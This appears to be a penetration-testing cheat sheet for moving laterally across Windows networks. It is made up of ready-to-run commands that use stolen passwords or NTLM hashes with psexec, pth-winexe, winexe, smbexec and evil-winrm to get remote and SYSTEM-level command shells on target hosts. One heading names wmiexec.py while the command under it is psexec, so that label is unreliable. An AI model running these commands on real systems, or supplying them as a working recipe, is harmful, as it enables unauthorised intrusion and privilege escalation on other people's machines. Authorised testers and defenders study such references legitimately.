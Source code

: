 ###### psexec: execute file hostes on remote system with specified credentials  
`psexec /accepteula \\<targetIP> -u domain/user -p password -c -f \\<smbIP>\share\file.exe  `
###### psexec: run remote command with specified Hash  
`psexec /accepteula \\<ip> -u Domain/user -p <LM>:<NTLM> cmd.exe /c dir c:\Progra~1  `
###### pscexec: run remote command as system  
`psexec /accepteula \\<ip> -s cmd.exe`
###### you can use wmiexec.py
`$ psexec test/fcasl:Passw0rd@192.168.1.58`
###### 1. Use pth-winexe for pass the hash attack
`pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.22 cmd.exe`
###### 2.Use the hash with pth-winexe to spawn a SYSTEM level command prompt:
`pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.22 cmd.exe`
###### Using winexe
`winexe -U 'admin%password123' //TARGETIP cmd.exe`
###### Using smbexec 
`$ smbexec.py administrator:password@ip-address`
###### Use evil-winrm for winrm login
